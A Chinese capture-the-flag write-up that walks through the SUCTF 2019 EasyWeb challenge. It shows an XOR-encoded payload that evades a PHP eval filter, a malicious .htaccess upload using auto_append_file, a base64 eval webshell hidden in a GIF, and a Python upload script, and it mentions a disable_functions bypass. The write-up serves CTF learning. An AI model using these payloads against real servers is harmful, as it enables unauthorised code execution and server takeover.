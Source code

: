 # \[SUCTF 2019]EasyWeb

## \[SUCTF 2019]EasyWeb

## 考点

* PHP传参特性，PHP参数传递特性，PHP参数污染，PHP的字符串解析特性
* .htaccess特性
* .htaccess在没有\<?的情况下制作图片马

## wp

给了源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

两个部分，一个要执行get\_the\_flag函数，一个要绕文件上传

### 第一部分

传入参数长度小于等于18，并且由不超过12个字符组成。这些字符不包括这些

```
ASCII范围不包含
0-32，48-57，65-90，97-122，127
还有
'"`~_&.,|=[
```

![](<../../.gitbook/assets/image (21) (1) (1).png>)

可以看出来没有过滤的是`$^{}%();`等等。一般来说，PHP传参是`$_GET["a"]`这种形式，但是在PHP7也可以这样`${_GET}{a}`

paylaod: `_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo` 相当于 `_=${_GET}{%ff}();&%ff=phpinfo`

### 第二部分

文件上传，后缀不能有`ph`，上传的文件内容不能有`<?`，并且会用`exif_imagetype`函数对上传文件进行检测

后缀不能有`ph`，那就是`.htaccess`或者`.user.ini`

内容不包含`<?`那就是`<script language="php">`，但是在PHP7被弃用

不确定中间件不确定PHP版本，看一下phpinfo，得到信息<mark style="color:orange;">`PHP7.2`</mark>和<mark style="color:orange;">`apache2`</mark>，REMOTE\_ADDR是10.244.80.46

![](<../../.gitbook/assets/image (7) (1).png>)

这样思路就明确了，上传`.htaccess`让服务器把图片文件解析成木马，但有几个问题

* `.htaccess`格式很严格，加上图片头文件apache是解析不了的，如何让它被识别成图片
* 图片文件在没有`<?`的情况下如何写马

<mark style="background-color:orange;">第一个问题有两个方法</mark>

一是

```
#define width 1337
#define height 1337
```

二是

`.htaccess`文件前加上16进制的`x00x00x8ax39x8ax39`，也即wbmp文件的开头，并且`.htaccess`文件中以`0x00`开头是注释符

<mark style="background-color:orange;">第二个问题是用</mark>`.htaccess`文件的`auto_append_file`包含base64解码的shell

.htaccess

```
#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
```

shell.gif

```
GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4=
```

然后上传可以用POSTman或者脚本都可以

```python
import requests
import base64

htaccess = b"""#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
"""
shell = b"GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4="
url = "http://fd0b9d5f-f8d6-4615-8a64-5c5eac845091.node4.buuoj.cn:81/?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.gif',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)

```

连接成功后发现权限好像不对，输什么都是返回ret=127，看了一下phpinfo，是要进行bypass\_disable\_function，用蚁剑自带的插件就可以。因为是PHP7.2，所以用了PHP7 Backtrace UAF进行bypass。

![](<../../.gitbook/assets/image (16) (1).png>)

## 小结

1. PHP传参是`$_GET["a"]`这种形式，但是在<mark style="color:orange;">PHP7</mark>也可以这样`${_GET}{a}`
2. 用`.htaccess`文件的`auto_append_file`可以包含base64解码的shell
